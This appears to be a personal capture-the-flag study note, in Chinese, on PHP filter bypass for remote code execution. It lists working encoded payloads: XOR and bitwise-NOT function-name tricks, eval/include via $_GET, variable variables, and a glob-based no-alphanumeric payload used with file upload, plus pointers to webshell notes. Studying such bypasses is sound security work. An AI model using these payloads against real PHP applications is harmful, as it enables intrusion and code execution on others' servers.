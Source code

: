tags:: CTFWEB/RCE, CTFWEB/PHP/WAF绕过， CTFWEB/PHP/无字母数字RCE

- `'`
	- `"`
- `base_convert`
	- `chr` 拼接
- 空格和括号
	- `eval('include$_GET[url]?>');`
- hex
	- php的`"`支持转义: `"\x61"`
- 和，或，非等二进制操作
	- 异或
	- `((%fe%fe%fe%fe%fe%fe%fe)^(%8e%96%8e%97%90%98%91))();`
	- 取反
	- `${~'%99%93%9E%98'} # $flag`
	- 可以使用方括号构造数组并取第一个元素的方式绕过空格WAF
		- `[~%8c%86%8c%8b%9a%92][!%FF]`
- `$$`
	- ```php
	  $a = "b"
	  $b = "asd"
	  echo($$a) // 输出asd
	  ```
- 使用不可见字符作为变量名
- glob
	- ```
	  `?><?=`. /???/????????[@-[]`?>`	
	  ```
	- 需要配合文件上传,具体见[[CTFWEB/PHP/无字母数字RCE]]
- #### 从其他地方读取
	- 其他未被过滤的参数(GET 或者 POST)
	- session_id()
	- cookie
	- log
- [[CTFWEB/PHP/无字母数字RCE]]
- [[CTFWEB/PHP/特殊标签]]
- # webshell绕WAF技巧
	- [[CTFWEB/PHP/webshell]]